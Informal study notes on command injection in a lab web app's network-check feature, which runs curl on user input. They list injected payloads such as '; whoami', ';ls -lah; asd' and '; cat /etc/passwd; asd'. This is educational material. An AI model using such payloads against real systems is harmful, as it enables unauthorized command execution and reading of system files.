

https://appsecexplained.gitbook.io/appsecexplained/common-vulns/injection/command-injection
Comamand : https://tcm-sec.com/
Will check the functionality of this network check:

As we can see it has also check as the command it has run : curl -I -s -L https://tcm-sec.com/ | grep "HTTP/"
Command : https://tcm-sec.com; whoami

Command :https://tcm-sec.com; whoami; echo HTTP/

Command: ;whoami; asd

;ls -lah; asd

To see this is formatted text will use ctrl+u

; cat /etc/passwd; asd

But again if we press the ctrl+u will get the course code and it in formated form to view